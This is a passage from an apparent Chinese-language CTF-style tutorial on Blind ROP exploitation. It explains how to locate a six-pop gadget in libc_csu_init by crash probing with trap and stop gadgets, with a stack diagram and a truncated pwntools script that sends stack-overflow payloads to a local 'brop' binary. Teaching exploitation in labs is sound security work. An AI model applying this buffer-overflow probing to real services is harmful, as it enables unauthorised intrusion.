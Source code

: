 我们可以通过程序是否崩溃来判断probe探针中可能存在的汇编语句，在这样布局的情况下，如果程序没有崩溃，说明stop gadget被执行了。说明了probe探针中没有pop操作，并且有ret返回，如果有pop操作的话stop会被pop进寄存器当中，那么probe探针的ret返回就会指向stop的后几位traps，那么就会导致程序崩溃。那么由于在栈布局中stop gadget在probe探针的下一位，说明stop所在位置就是probe探针的ret返回地址位置。如：

> pop rax; ret
>
> pop rdi; ret
>

probe, trap, trap, trap, trap, trap, trap, stop, traps以这样的方式进行排列，可以看一下在栈中的排列

```python
   +---------------------------+ 
   |           traps           | <----- traps，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+ 
   |           stop            | <----- stop gadget，不会使程序崩溃，作为probe的ret位
   +---------------------------+ 
   |           trap            | <----- traps，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+
   |           trap            | <----- traps，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+
   |           trap            | <----- traps，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+
   |           trap            | <----- traps，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+
   |           trap            | <----- traps，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+
   |           trap            | <----- trap，程序中不存在的地址，当IP指针指向该处时崩溃
   +---------------------------+
   |           probe           | <----- 探针
   -----------------------------
```

我们可以通过程序是否崩溃来判断probe探针中可能存在的汇编语句，在这样布局的情况下，如果程序没有崩溃，说明stop gadget被执行了。说明该probe探针中存在6个pop操作，并且有ret，因为只有在6个pop操作之后probe后面的trap才能弹进寄存器，之后sp指针才能指向stop gadget，这个时候stop gadget只有在ret位置才能被执行，因此程序不会崩溃

回到我们之间说的寻找brop gadget环节，我们这个环节要找的就是libc_csu_init最后的6个pop加ret，那么根据前面的讲解我们可以大致的通过trap、stop这种方式做一个简单的排列：

addr，trap, trap, trap, trap, trap, trap, stop, traps

以上面这种排列的话，addr通过循环不断增加地址位，只有addr所在地址拥有6个pop操作并ret的时候才会执行stopgadget。

循环内容：递增地址，找到可以执行6个pop和一个ret操作的gadget

循环终止条件：程序不崩溃，并出现起始的输出提示’WelCome’字符

执行目的：找到libc_csu_init函数的最后一个gadget，通过偏移计算出pop rdi地址

```python
# coding=utf-8
from pwn import *
context.log_level = "debug"

def get_brop_gadget(length,stop_gadget,addr):
    try:
        p = process('./brop')
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'a'*length + p64(addr) + p64(0)*6 + p64(stop_gadget)
        #payload中填充任意6个字符就行
        #通过72个a填满栈空间到ret，增长的地址覆盖原有的ret地址，
        #接着用6个字符的p64形式充当trap，最后接上stop
        p.sendline(payload)
        content = p.recv()
        p.close()
        print content
        if not content.startswith('WelCome'):
            #判断提示符是否出现起始提示字符，如果有说明程序没崩溃
            return False
```